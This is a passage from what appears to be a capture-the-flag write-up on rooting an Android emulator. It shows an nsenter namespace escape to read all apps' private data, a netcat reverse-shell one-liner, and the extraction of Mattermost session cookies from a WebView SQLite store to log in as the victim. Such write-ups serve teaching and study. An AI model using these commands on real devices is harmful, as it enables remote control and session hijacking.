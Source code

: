 However, because we are still in a different mount namespace, the private data of other applications remains inaccessible:

```
:/ # ls -al /data/data/
total 11
drwxr-x--x  3 root    root      60 2025-09-08 07:48 .
drwxrwx--x 52 system  system  4096 2025-09-08 07:48 ..
drwx------  5 u0_a116 u0_a116 3452 2025-09-08 04:34 com.example.notabackdoor2
```

By executing `nsenter -t 1 -m sh`, we can spawn a new shell **inside the mount namespace of the init process**. From there, it becomes possible to view the entire `/data/data` directory:

```
:/ # nsenter -t 1 -m sh
ls -al /data/data | head -n 10
total 462
drwxrwx--x 148 system         system         20480 2025-09-08 04:32 .
drwxrwx--x  52 system         system          4096 2025-09-08 07:48 ..
drwx------   4 system         system          3452 2025-09-08 04:31 android
drwx------   4 u0_a18         u0_a18          3452 2025-09-08 04:31 android.cuttlefish.overlay
drwx------   4 u0_a17         u0_a17          3452 2025-09-08 04:31 android.cuttlefish.phone.overlay
drwx------   4 u0_a112        u0_a112         3452 2025-09-08 04:31 android.ext.services
drwx------   4 u0_a46         u0_a46          3452 2025-09-08 04:31 android.ext.shared
drwx------   4 system         system          3452 2025-09-08 04:31 com.android.DeviceAsWebcam
drwx------   4 u0_a99         u0_a99          3452 2025-09-08 04:31 com.android.adservices.api
```

#### 3.6.5. Post Root

I used the following command to get a reverse shell - thanks to devil for the help with this part!

``` bash
mkfifo /sdcard/Download/bruh;cat /sdcard/Download/bruh|/system/bin/sh -i 2>&1|nc $IP $PORT >/sdcard/Download/bruh
```

After obtaining root reverse shell, we followed the author's hint and extracted the login cookie from `/data/data/com.mattermost.rn/app_webview/Default/Cookies`, which is a SQLite3 database. Inside, we found three cookies used to authenticate to a private Mattermost website:

```
sqlite> SELECT * FROM cookies;
13401091427226867|rbtree.ctfi.ng||MMAUTHTOKEN|<REDACTED>||/<REDACTED>-secret-pigeon-club-<REDACTED>|13416643427000000|1|1|13401091427226867|1|1|1|-1|2|443|13401091427226948|3|1
13401091427227273|rbtree.ctfi.ng||MMCSRF|<REDACTED>||/<REDACTED>-secret-pigeon-club-<REDACTED>|13416643427000000|1|0|13401091427227273|1|1|1|-1|2|443|13401091427227282|3|1
13401091427227233|rbtree.ctfi.ng||MMUSERID|<REDACTED>||/<REDACTED>-secret-pigeon-club-<REDACTED>|13416643427000000|1|0|13401091427227233|1|1|1|-1|2|443|13401091427227248|3|1
```

Once logging in with these cookies, you can see the chat channel looks like this:
